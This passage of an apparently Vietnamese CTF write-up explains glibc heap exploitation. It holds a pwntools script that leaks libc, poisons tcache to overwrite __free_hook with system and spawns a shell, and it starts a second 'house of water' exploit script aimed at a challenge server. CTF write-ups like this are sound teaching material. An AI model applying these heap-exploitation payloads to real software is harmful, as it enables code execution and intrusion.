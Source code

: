 ```free_hook``` , cuối cùng chỉ cần ```malloc``` lại và thay đổi dữ liệu trong ```tcache```

add(2, 0x70)
add(3, 0x70)
add(4, 0x70)
show(2)  #leak libc 

libc.address = u64(p.recvline()[:8]) - 0x1ed010
log.info(f'libc: {hex(libc.address)}')

input()
add(5, 0x380)
free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']

delete(4)
delete(3)

#### overwrite fd of chunk 3 to free_hook ####

edit(2, 0x88, b'a' * 0x70 + p64(0) + p64(0x81) + p64(free_hook))  #change fd
add(5, 0x70)
add(6, 0x70)

edit(5, 8, b'/bin/sh\x00')
### change free_hook to system ###
edit(6, 8, p64(system))
delete(5)
p.interactive()
```

1 điều cần chú ý là khi malloc fake chunk thì , số lượng ```tcache_pthread``` phải lớn hơn 0.


### cách 2 

1 kĩ thuật gọi là ```the house of water``` : https://corgi.rip/posts/leakless_heap_1/#forcing-a-leak-with-file-buffering

```
#!/usr/bin/env python3

from pwn import *
import io_file

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
global p, index

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p,gdbscript='''
dprintf *edit+0xe9,"reading into %p\\n",$rdi
continue
''')
            sleep(2)
    else:
        p = remote("172.31.3.2",4240)
    return p

def malloc(idx, size):
```